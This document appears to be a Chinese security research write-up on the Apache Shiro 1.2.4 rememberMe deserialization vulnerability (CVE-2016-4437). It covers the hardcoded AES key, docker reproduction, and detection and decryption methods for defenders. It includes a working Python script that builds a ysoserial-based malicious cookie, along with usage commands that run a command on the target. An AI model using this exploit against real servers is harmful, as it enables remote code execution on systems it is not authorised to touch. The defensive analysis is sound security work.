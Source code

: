 # Apache Shiro 1.2.4反序列化漏洞(CVE-2016-4437)

## 简介

Apache Shiro 是重要的 Java 权限及安全验证框架。

根据[官方issue](https://issues.apache.org/jira/browse/SHIRO-550)

* Retrieve the value of the rememberMe cookie

* CookieRememberMeManager.java

* Base64 decode

* Decrypt using AES

* 加密密钥硬编码

* Java serialization(ObjectInputStream)

CookieRememberMemanager.java 的父类AbstractRememberMeManager存在硬编码：


	/**
     * The following Base64 string was generated by auto-generating an AES Key:
     * <pre>
     * AesCipherService aes = new AesCipherService();
     * byte[] key = aes.generateNewKey().getEncoded();
     * String base64 = Base64.encodeToString(key);
     * </pre>
     * The value of 'base64' was copied-n-pasted here:
     */
    private static final byte[] DEFAULT_CIPHER_KEY_BYTES = Base64.decode("kPH+bIxk5D2deZiIxcaaaA==");

因为 AES 是对称加密，即加密密钥也同样是解密密钥。

攻击者可以使用有效的rememberMe cookie，然后构造rememberMe来执行Java反序列化攻击，最终导致远程代码执行。

## 复现


使用这个docker复现成功，使用vulhub镜像复现未成功。

```docker pull medicean/vulapps:s_shiro_1```

```docker run -d -p 8080:8080 medicean/vulapps:s_shiro_1```



![](2.png)

apache shiro 这个洞, 登录时需要勾选 ```Remember me``` ， 否则Cookie显示的是 ```rememberMe=deteleMe```

![](1.png)

登陆后看到 Cookie中的rememberMe记录登陆后的加密字符串。

![](3.jpg)

**实际复现无需登陆。**

生成payload的脚本：

	import sys
	import base64
	import uuid
	from random import Random
	import subprocess
	from Crypto.Cipher import AES  # pip3 install pycryptodome
	
	def encode_rememberme(command):
	    popen = subprocess.Popen(['java', '-jar', 'ysoserial-master-30099844c6-1.jar', 'CommonsCollections2', command], stdout=subprocess.PIPE)
	    BS   = AES.block_size
	    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
	    key  =  "kPH+bIxk5D2deZiIxcaaaA=="
	    mode =  AES.MODE_CBC
	    iv   =  uuid.uuid4().bytes
	    encryptor = AES.new(base64.b64decode(key), mode, iv)
	    file_body = pad(popen.stdout.read())
	    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
	    return base64_ciphertext
	
	if __name__ == '__main__':
	    payload = encode_rememberme(sys.argv[1])
		with open("payload.cookie", "w") as f:
			print("rememberMe={}".format(payload.decode()), file=f) 

用法： 

	python3 shiro_payload.py "touch /tmp/success"

	http get(或head) ip:8080 Cookie:`cat payload.cookie`

## 特征分析

正常登陆成功返回的cookie 中 rememberMe= 后的加密key长度 500多。 恶意key通常较长，有4000多，可以设置阈值长度，再根据告警的资产用脚本打 dns log平台验证。

## 影响版本

Apache Shiro <= 1.2.4

## shiro rememberMe cookie 解密研究

为何要解密加密的rememberMe：在实际的应用中，部署shiro的服务器很可能把shiro关键字 rememberMe 改了，有红队的同学就在现网看见过关键字被改成```rmbMe```，如果改成其他的生僻或常见关键字，蓝队不好取证，不好证明它是shiro攻击。

作为蓝队，拿到攻击payload，不能保证允许在客户服务器进行攻击复现，如果能通过AES解密，还原出序列化的命令，客户是一定认可这个攻击的，便于蓝队取证。

参考代码审计： https://blog.csdn.net/three_feng/article/details/52189559

![](4.png)

如下图，研究shiro加密逻辑发现，AES的iv的length是16的倍数，iv被和已序列化的字节流拼接，base64加密传输给后端，所以rememberMe的base64解码后的前16个字节 就是AES的初始化向量iv。

![](5.png)

根据这个逻辑可以编写解码脚本。 前16位为iv,后面的为序列化的字节流。

![](6.png)

通过在网上采集的 shiro_96key，遍历key，解密，采集语句例如： ```https://github.com/search?p=1&q=setCipherKey%28Base64.decode%28%22&type=Code```

![](8.png)

程序运行效果如下：

![](7.png)

## 参考资料


[创宇404实验室分析Shiro RememberMe 1.2.4 反序列化导致的命令执行漏洞](https://paper.seebug.org/shiro-rememberme-1-2-4/)


[What Do WebLogic, WebSphere, JBoss, Jenkins, OpenNMS, and Your Application Have in Common? This Vulnerability.](https://foxglovesecurity.com/2015/11/06/what-do-weblogic-websphere-jboss-jenkins-opennms-and-your-application-have-in-common-this-vulnerability/)


[这里收集其他硬编码的秘钥，以及测试其他不同的可以使用的CommonCollections版本](https://cloud.tencent.com/developer/article/1540882)

[Java反序列化入门-Shiro RememberMe 1.2.4远程代码执行漏洞-详细分析](https://xz.aliyun.com/t/6493)